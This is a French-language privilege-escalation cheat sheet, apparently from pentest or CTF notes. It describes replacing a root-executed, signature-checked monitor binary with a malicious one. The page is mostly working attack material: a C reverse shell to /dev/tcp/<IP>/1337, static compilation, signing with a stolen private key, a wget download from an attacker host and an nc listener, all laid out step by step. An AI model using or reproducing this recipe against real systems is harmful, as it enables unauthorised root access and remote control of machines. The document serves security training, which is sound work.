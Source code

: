 # SIGNED BINARY EXPLOIT

***

### <mark style="color:red;">🧩 Contexte</mark>

* Sur certains systèmes **root exécute périodiquement un binaire** (souvent un agent de monitoring, un script de vérification, un AV artisanal…).
* Pour éviter les modifications malveillantes, ce binaire est :
  * **Possédé par root**.
  * **Contrôlé par un mécanisme de signature** (log : _Executable not signed. Tampering attempt detected_).
* L’attaquant doit donc **fabriquer un binaire malveillant** puis **le signer correctement** pour qu’il soit accepté et exécuté par root.

***

### <mark style="color:red;">⚙️ Étapes d’Exploitation</mark>

#### 1️⃣ Détection

* Avec **linpeas**, tu trouves un binaire suspect :

```bash
-rwxrw---- 1 root devs 194 Jul 30 07:40 /opt/AV/periodic-checks/monitor
```

* Exécuté régulièrement par root :

```bash
ps aux | grep monitor
root  7551  ...  /opt/AV/periodic-checks/monitor
```

#### 2️⃣ Analyse

* Le fichier est très petit → ELF minimal (probablement un stub).
* Un fichier de logs `status.log` montre un système de signature :

```
[ERROR] Executable not signed. Tampering attempt detected.
```

* ➡️ On doit générer un **nouveau binaire malveillant signé**.

#### 3️⃣ Création du binaire malveillant

* Exemple : reverse shell root.

```c
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<IP>/1337 0>&1", NULL);
    return 0;
}
```

* Compilation statique :

```bash
x86_64-linux-gnu-gcc -o monitor exploit.c -static
```

#### 4️⃣ Signature

* Compilation de l’outil signer (ex: `linux-elf-binary-signer`).

```bash
git clone https://github.com/NUAA-WatchDog/linux-elf-binary-signer.git
cd linux-elf-binary-signer
make
```

* Signature avec la clé privée récupérée (`key.pem`) :

```bash
./elf-sign sha256 key.pem key.pem monitor
```

* Binaire signé → prêt à remplacer celui de root.

#### 5️⃣ Déploiement

* Upload via `wget` :

```bash
wget http://<IP>:8000/monitor.1
mv monitor.1 monitor
chmod +x monitor
```

* Attente que root exécute automatiquement le binaire (ou forcer via un script cron/service).

#### 6️⃣ Exploitation

* Lancer listener :

```bash
nc -lnvp 1337
```

* Quand root exécute `monitor` → shell root.

***

### <mark style="color:red;">📚 Références</mark>

* [CWE-494: Download of Code Without Integrity Check](https://cwe.mitre.org/data/definitions/494.html)
* [CWE-325: Missing Cryptographic Step (Signature Verification issues)](https://cwe.mitre.org/data/definitions/325.html)
* Exploit pattern : _Signed Binary Replacement → Privilege Escalation_

***
